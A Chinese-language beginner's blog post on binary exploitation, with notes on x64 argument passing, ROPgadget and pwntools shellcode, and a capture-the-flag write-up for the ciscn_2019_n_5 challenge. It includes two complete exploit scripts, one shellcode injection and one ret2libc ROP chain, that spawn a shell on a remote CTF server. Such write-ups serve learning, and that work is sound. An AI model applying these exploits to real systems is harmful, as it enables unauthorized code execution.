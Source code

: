 ```yaml
---
layout: post
title: pwn入门
subheading: 栈溢出相关知识
author: xyccq
categories: 无
tags: Pwn
---
```


#### 栈溢出

​	暂时无时间记录，等以后有时间了补上。

#### 函数传参（x86与x64的区别）：

​	x86的参数都保存在栈上面，而x64中的前6个参数依次保存在RDI, RSI, RDX, RCX, R8和R9中，如果还有更多的参数时才会保存在栈上。

​	因此在64位的程序上，要寻找pop rdi;ret这样的指令来进行传参。如何找到这些指令呢，用ROPgadget这个工具。

```ROPgadget --binary ./filename --only "pop|ret"```

​	这个指令具体怎么用，有时间自习研究一番继续补上。

​	当我们得到了pop rdi;ret指令的地址后，就可以构造payload，例如下面

```python
payload = padding + p64(pop_rdi) + p64(bin_addr) + p64(sys_addr)
```

​	这里相当于将bin_addr的内容作为pop参数移入rdi寄存器中，然后ret返回，继续执行system函数，并将rdi中的内容作为system的参数，即可执行system('bin\sh')从而getshell。（暂时是这么理解，如果有错误请师傅指正，以后如果发现理解错了再返回来修改...）



#### shellcode

```asm(shellcraft.sh())```该函数能自动生成shellcode，在一些RWX段可以直接写入并接在后面运行。

注：在使用这个函数前，一定用```context.arh="xxx"```写明程序架构。



#### 一道例题（ciscn_2019_n_5)

​	一道有RWX段的例题，做完后看了一遍感觉也能泄露libc来做。于是写了两种解法，权当练手了。虽然ret2text/libc这种大家都会的东西已经很少作为比赛题出现了，但毕竟咱作为新手还是要从基础开始学，多练练总是有益无害的。下面是两种做法：

##### 1.

IDA打开看看代码

<img src="C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20201129200355940.png" alt="image-20201129200355940" style="zoom:67%;" />

看见程序有两处输入，发现name在.bss段上，用vmmap查看该段是RWX段。

<img src="C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20201129200605666.png" alt="image-20201129200605666" style="zoom: 67%;" /> <img src="C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20201129200717199.png" alt="image-20201129200717199" style="zoom: 67%;" />

第二次输入用了gets函数，显然存在栈溢出，那么第一种解法已经呼之欲出了，写exp如下

```python
from pwn import *
#context.log_level = 'debug'
context.arch = 'amd64'
#p = process('./ciscn_2019_n_5')
p = remote('node3.buuoj.cn',28497)
bss_addr = 0x601080
p.sendline(asm(shellcraft.sh()))
padding = b'a'*(0x20+0x8)
payload = padding + p64(bss_addr)
p.sendline(payload)
p.interactive()
```

用```asm(shellcraft.sh())```生成shellcode并写入name，栈溢出执行该段代码即可getshell

##### 2.

代码分析如1，同时注意到程序中有puts函数，那么应该可以泄露出put的地址，那么就可以用LibcSearcher找到对应libc版本，从而计算出libc的基址，也即setoff。那么就能找到system函数以及字符串bin/sh的地址，构造ROP链即可getshell。直接上代码

```python
from pwn import *
from LibcSearcher import *
#context.log_level = 'debug'
context.arch = 'amd64'
#p = process('./ciscn_2019_n_5')
p = remote('node3.buuoj.cn',27811)
elf = ELF('./ciscn_2019_n_5')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ret = 0x00000000004004c9
pop_rdi = 0x0000000000400713
main = 0x400636
p.sendline('1')

payload = b'a'*(0x20+0x8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

p.sendline(payload)
print(p.recvuntil('me?\n'))
puts_addr = u64(p.recv(7)[:-1].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
setoff = puts_addr - libc.dump('puts')
sys_addr = setoff + libc.dump('system')
bin_addr = setoff + libc.dump('str_bin_sh')

p.sendline('1')
print(p.recv())
print(p.recvuntil('me?\n'))
payload2 = b'a'*(0x20+0x8) + p64(pop_rdi) + p64(bin_addr) + p64(ret) + p64(sys_addr)
p.sendline(payload2)
p.interactive()
```

其中payload2中的ret用于平衡栈（具体原理等我搞明白了回来填坑，反正ubuntu18版本及以上如果不能getshell就加个ret试试）。